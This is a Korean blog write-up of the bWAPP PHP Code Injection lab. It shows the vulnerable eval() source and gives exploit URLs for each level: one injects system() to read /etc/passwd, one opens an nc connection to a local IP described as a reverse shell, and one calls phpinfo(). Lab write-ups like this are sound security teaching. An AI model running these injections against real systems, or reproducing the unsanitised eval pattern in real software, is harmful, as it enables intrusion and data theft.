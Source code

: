 ```yaml
---
layout: single
title: (bWAPP)PHP Code Injection
categories: Web-vuln
tag: [php injection, php, injection, bwapp, bee box, php code injection, OWASP TOP 10, OWASP]
toc: true
author_profile: false
sidebar:
    nav: "counts"
---
```


# 검증 로직

```php
<?php

if(isset($_REQUEST["message"]))
{
    // If the security level is not MEDIUM or HIGH
    if($_COOKIE["security_level"] != "1" && $_COOKIE["security_level"] != "2")
    {
?>
    <p><i><?php @eval ("echo " . $_REQUEST["message"] . ";");?></i></p>
<?php
    }
    // If the security level is MEDIUM or HIGH
    else
    {
?>
    <p><i><?php echo htmlspecialchars($_REQUEST["message"], ENT_QUOTES, "UTF-8");;?></i></p>
<?php
    }
}s
?>
```
## Level - Low
![그림 1-1](/assets/image/bwapp/php-code-injection/image.png)

```PHP
<p><i><?php @eval ("echo " . $_REQUEST["message"] . ";");?></i></p>
```

- 해당 문제에 주어지는 LOW Level 소스코드는 위와 같다.
- eval 함수를 사용하여 사용자의 입력값을 실행하도록 되어 있다.
> eval() 함수란 사용자의 입력값으로 들어온 문자열을 해당 Server Side Script 의 코드로 인식하여 실행하는 함수이다. 이 때 입력값으로 들어온 문자열이 시스템 명령 함수가 존재할 경우 시스템 함수를 실행시킨다.

- 해당 LOW Level 에서 아무런 사용자 입력 값에 대한 유효성 검살를 하지 않고 바로 eval() 함수를 사용한다. 

```
/bWAPP/phpi.php?message=hello
```

![그림 1-2](/assets/image/bwapp/php-code-injection/image2.png)
- 입력값이 echo 명령과 합쳐지면 페이지에 출력되는것을 확인했다. 

```
/bWAPP/phpi.php?message=system(%27head%20-3%20/etc/passwd%27)
```

- 위와 같이 php system 명령어를 인자로 넘겨줬다.
![그림 1-3](/assets/image/bwapp/php-code-injection/image3.png)
- system() 명령이 성공적으로 실행된 걸 확인할 수 있다.
- 이를통해 Reverse Shell Connection또한 가능하다.

```
/bWAPP/phpi.php?message=system(%27nc%20192.168.146.137%205252%27)
```

![그림 1-4](/assets/image/bwapp/php-code-injection/image4.png)
- 성공적으로 Reverse Connection이 맺어진 걸 볼 수 있다.

## Level - Medium & High

```php
<p><i><?php echo htmlspecialchars($_REQUEST["message"], ENT_QUOTES, "UTF-8");;?></i></p>
```

- LOW Level 을 제외한 단계에서는 htmlspcialchars() 함수를 사용하여 메타문자 입력을 금지하고 있다.

- 이를 통해 LOW Level 과 같이 치명적인 공격은 불가능 하며, php의 경우 phpinfo() 를 통해 사용중인 php 정보 확인과 같은 취약점 판별은 가능하다

```
/bWAPP/phpi.php?message=phpinfo()
```

![그림 1-5](/assets/image/bwapp/php-code-injection/image5.png)
